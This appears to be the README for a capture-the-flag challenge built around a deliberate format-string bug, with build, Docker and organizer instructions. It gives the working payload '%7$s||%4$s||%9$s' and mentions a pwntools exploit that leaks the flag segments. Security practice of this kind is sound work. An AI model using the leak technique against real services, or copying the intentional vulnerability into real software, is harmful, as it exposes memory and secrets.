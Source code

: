 ### KPOP Database – Format String (Difficulty 7/10)

#### Overview
- Binary reads `flag.txt` into memory and splits it into 3 segments: `g_seg1`, `g_seg2`, `g_seg3`.
- Search feature prints user-controlled input as a format string and passes many varargs. The 3 flag segments are placed at sparse positions to require positional specifiers:
  - `%4$s` -> `g_seg2`
  - `%7$s` -> `g_seg1`
  - `%9$s` -> `g_seg3`
- A naive `%s %s` won’t reveal the entire flag; you must use positional parameters.

#### Local build and run
```bash
cd src
make
make run
```

#### Local net service
```bash
cd src
make serve
# in another terminal
nc 127.0.0.1 9001
```

#### Exploitation (manual)
Use positional specifiers to reconstruct the flag:
```
2               # Search
%7$s%4$s%9$s    # seg1 + seg2 + seg3
```
You can also separate with markers for easier parsing:
```
%7$s||%4$s||%9$s
```

#### Pwntools exploit
```bash
python3 -m pip install -r requirements.txt
python3 exploit.py proc
python3 exploit.py local
python3 exploit.py remote --host HOST --port PORT
```
The exploit sends `%7$s||%4$s||%9$s`, splits on `||`, then concatenates.

#### Docker service
```bash
# From repository root
docker compose up --build -d
nc 127.0.0.1 9001
```

#### Notes for organizers
- Mitigations relaxed in container; macOS build uses `-no_pie` flag (ignored on arm64).
- Provide a deployment-time `flag.txt`.
- Timeout: `alarm(120)`.
